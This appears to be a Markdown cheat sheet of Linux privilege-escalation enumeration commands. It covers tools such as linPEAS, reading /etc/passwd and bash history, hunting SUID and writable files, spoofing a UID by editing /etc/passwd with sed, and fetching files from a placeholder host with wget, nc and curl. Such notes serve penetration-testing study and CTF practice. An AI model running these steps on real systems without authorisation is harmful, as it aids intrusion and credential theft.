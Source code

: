 ## Linux privilege Escalation

* Automated enumeration scripts

```
// https://github.com/diego-treitos/linux-smart-enumeration.git
./lse.sh > output.txt

// https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
linpeas -a > /dev/shm/linpeas.txt
```

* Enumerate General information

```
  # Part of too many groups? Find out all the files you've access to
  for i in $(groups); do echo "=======$i======"; find / -group $i 2>/dev/null | grep -v "proc" >> allfiles; done

  # Look what the user was up to
  less .bash_history
  less mysql_history
```

* Enumerating Users

```
id
whoami
cat /etc/passwd
```

* Get System information

```
cat /etc/issue
cat /etc/*-release
uname -a
```

* Check bash History

```
cat ~/.bash_history
```

* Enumerating Running Processes and Services

```
ps axu
```

* Enumerating Networking Information

```
ip a
/sbin/route
netstat -anp
ss -anp
```

* Enumerating Firewall Status and Rules

```
Root privileges are required to list firewall rules with iptables
Can search for firewall dump configuration as user
		-Command: iptables-save
```

* Enumerating Scheduled Tasks

```
ls -lah /etc/cron*
cat /etc/crontab
grep "CRON" /var/log/cron.log
```

* Enumerating Installed Applications

```
Debian
    dpkg -l
Redhat
    rpm
```

* Enumerating Readable/Writable Files and Directories

```
RUN SUID3NUM to look for SUID bits with colors in python script
find / -writable -type d 2>/dev/null
find / -writable -type f 2>/dev/null
```

* Enumerating Unmounted Disks

```
/bin/lsblk
cat /etc/fstab
mount
```

* Enumerating Kernel Modules

```
// list modules
lsmod

// get details
/sbin/modinfo libata
```

* Enumerating Binaries That AutoElevate

```
find / -perm -u=s -type f 2>/dev/null
```

* Enumerate UID Spoofing

```
Find a file that might have creds but locked for a user that has UUID of '1014' who has rwx permissions on file
Add local user to machine through adduser command 
Change added user to UUID to '1014' and switch to that user and access the file
Command to change specified UUID of new user to '1014'
Command: sudo sed -i -e 's/1001/1014/g' /etc/passwd
```

* HTTP

```
Wget
wget http://<ip>/file_name -O /path/to/save/file

Netcat
nc -nv <ip> <port> > file/to/recv

Curl
curl http://<ip>/file_name --output file_name
```